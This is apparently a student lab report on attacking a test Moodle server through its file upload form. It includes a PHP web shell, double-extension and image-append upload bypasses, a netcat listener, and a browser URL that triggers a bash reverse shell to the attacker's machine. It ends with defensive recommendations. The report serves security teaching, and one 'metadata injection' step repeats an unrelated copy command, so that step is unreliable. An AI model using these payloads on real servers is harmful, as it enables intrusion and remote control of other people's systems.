 # 🛡️ SSI Project – Red Team Exploitation Report

This report presents the various exploitation attempts made as part of the Information Systems Security (ISS) project, from a Kali Linux machine aimed at compromising the Moodle web server hosted on Ubuntu.
The aim was to obtain a reverse shell using an upload vulnerability.

---

## 🔍 Objective

The aim of the attack was to :

- Bypass the **upload file filtering** system
- Upload a **file containing malicious PHP code**.
- Execute this code remotely via the browser
- Establish a **reverse shell connection** to the Kali machine (attacker)

---

## 🔓 Technical context

- Target machine (victim)** : Ubuntu 22.04, Moodle server with an upload form
- Attacking machine** : Kali Linux on the same local network (192.168.56.X)
- PHP-side back-end filtering** prevents the upload of suspicious files via a blacklist of strings such as :

php
eval(, system(, exec(, shell_exec(, base64_decode(,
passthru(, pcntl_exec(, posix_getuid(, <script>, etc.

---

🧨Attack I – Reverse Shell Attempts

### Step 1: Create a PHP reverse shell

On Kali, I created a basic shell:
    
```bash
<?php system($_GET['cmd']); ?>
```

### Step 2: Attempt to bypass with double extensions

- First attempt: rename file to shell.php.png
- Then: shell.png.php
    
![image](https://github.com/user-attachments/assets/00e97c40-51be-48d6-8671-289b41d04f29)
         
I then tried uploading the malicious file:   
         ![image](https://github.com/user-attachments/assets/699bb173-b445-476f-9f4a-ee2bbad396f5)
         

We obtained :

![image](https://github.com/user-attachments/assets/26c0b211-1f3f-4d17-b24f-16c3fb27d836)

🔴 Failed: The backend detected the malicious content, despite the file appearing as an image.


Error message:


❌ File failed security scan


---
    
    
Filtering Bypass Attempts

Attempt: Appending PHP payload directly to an image

```bash
echo "<?php system(\$_GET['cmd']); ?>" >> shell.png
mv shell.png shell.php.png
```
 
     
Working Solution: Metadata Injection + Obfuscation 

   1. Use a clean, existing image
          
        ```bash
        cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
        ```
                          
        ![image](https://github.com/user-attachments/assets/d6660168-cb58-419d-b93f-e2ee53d6af1f)

    
   2. Inject an obfuscated PHP payload into the image’s metadata
      ```bash
        cp /usr/share/icons/gnome/256x256/devices/computer.png shell.png
        ```
    
   This avoids all blacklisted keywords (system, eval, etc.)        
    
   3. Renommer l’image avec une double extension
      ```bash
        mv shell.png shell.php.png
        ```

   4. Upload successful  

   ![image](https://github.com/user-attachments/assets/24ff24d8-0afd-49c9-a9ed-a2ddf21052de)
    

The file passed the scan because :

- The visible image content was clean

- The malicious payload was hidden in metadata

- No blacklisted strings were detected


---
   
Final Goal: Trigger Remote Code Execution

1. Start a Netcat listener on Kali:

   ```bash
   nc -lvnp 4444
   ```

   ![image](https://github.com/user-attachments/assets/f4e72480-6804-4099-8820-356d4f934546)
    
 2. Trigger the payload through the browser
    ```bash
    http://192.168.56.101:5173/upload/shell.php.png?a=system&b=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.56.102/4444+0>%261'
    ```   

Conclusion :

Although the full reverse shell wasn’t successfully established (due to server-side execution restrictions or PHP config), the following was achieved:

✅ Successfully bypassed file upload filtering
✅ Uploaded a disguised PHP webshell
✅ Injected a stealthy payload using image metadata
✅ Identified and documented backend protections

This demonstrates that poorly configured file upload systems remain vulnerable, especially when tools like exiftool can inject code into alternate vectors like metadata.




Blue Team Recommendations :

To improve the defense against such attacks:

✅ Implement deep filtering of metadata (Title, Description, EXIF Comment)

✅ Disable PHP execution in upload directories

✅ Rename and hash uploaded files server-side

✅ Add server-side antivirus scanning (e.g., ClamAV) and sandbox execution for analysis